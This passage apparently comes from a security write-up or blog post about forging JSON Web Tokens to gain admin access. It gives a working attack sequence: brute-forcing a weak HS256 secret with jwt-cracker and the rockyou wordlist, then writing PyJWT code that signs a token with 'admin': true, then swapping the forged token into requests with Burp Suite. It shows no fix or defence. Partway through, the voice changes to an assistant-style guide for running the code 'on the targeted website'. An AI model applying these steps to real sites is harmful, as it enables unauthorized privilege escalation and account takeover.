 ### 💡 Exploiting JWT Manipulation for Admin Access

### Step 1: Extracting the JWT Token

Copy the entire JWT token from the intercepted request. A JWT typically looks like this: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiMTIzNDU2IiwiYWRtaW4iOmZhbHNlfQ.somelongstring`

- I copied my JWT token and decoded it using [jwt.io](https://jwt.io/).

### Step 2: Brute-Forcing the Secret Key 🔓

Since the site used a weak **HS256** key, I ran:

```lua
jwt-cracker mytoken.jwt --wordlist=rockyou.txt
```

Within **minutes**, I got the secret key: `web3rocks123` 🎯

### Step 3: Crafting a Fake Admin Token

With the secret key, I modified the payload:

```json
{
  "user_id": "123456",
  "admin": true
}
```

Then, I generated a new JWT using Python:

```python
import jwt
secret = "web3rocks123"
payload = {"user_id": "123456", "admin": True}
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```

To execute the Python code on the targeted website, you'll need to set up your environment and tools properly. Here’s a step-by-step guide:

1. **Install Dependencies:** First, ensure you have the necessary libraries installed. You can do this using pip:

```bash
pip install pyjwt
```

**Generate the JWT Token:** Using the code snippet you provided, create the new JWT token:

- **Intercept the Request:** Use a tool like **Burp Suite** to intercept the request to the target website. This lets you modify the JWT token in the HTTP request.
    
- **Replace the JWT Token:** Once you've intercepted the request, replace the original JWT token with the newly generated one from your Python script.
    